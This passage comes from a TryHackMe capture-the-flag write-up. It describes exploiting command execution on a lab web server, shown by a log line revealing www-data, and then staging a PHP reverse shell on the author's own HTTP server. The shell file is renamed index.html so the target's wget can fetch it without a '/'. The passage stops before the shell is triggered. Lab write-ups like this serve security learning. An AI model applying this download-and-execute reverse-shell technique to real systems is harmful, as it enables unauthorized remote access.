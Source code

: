 On running this we get

```php
10.10.92.94 - - [26/Feb/2021 19:53:10] "GET /?uid=33(www-data) HTTP/1.1" 200 -
```

So now we need to inject reverse shell

For this I hosted a php reverse shell on my PC named `shell.php` and started a python server

```php
$ python3 -m http.server 1235
```

![/assets/images/TryHackMe/hackerofthehill_hard/Untitled%2010.png](/assets/images/TryHackMe/hackerofthehill_hard/Untitled%2010.png)

Tried different things so later found out that `/` is restricted.

Then to work around this, we can host the file as `index.php` or `index.html` so that we dont need to add `/` in the code. We cannot do index.php as `wget` can override the existing index.php and we could break the application. So I changed filename from `shell.php` to `index.html` . Now, we don't need to specify the path.

![/assets/images/TryHackMe/hackerofthehill_hard/Untitled%2011.png](/assets/images/TryHackMe/hackerofthehill_hard/Untitled%2011.png)

Which shows it worked as I got request on my python server

![/assets/images/TryHackMe/hackerofthehill_hard/Untitled%2012.png](/assets/images/TryHackMe/hackerofthehill_hard/Untitled%2012.png)

Now we need to replace the html extension to php
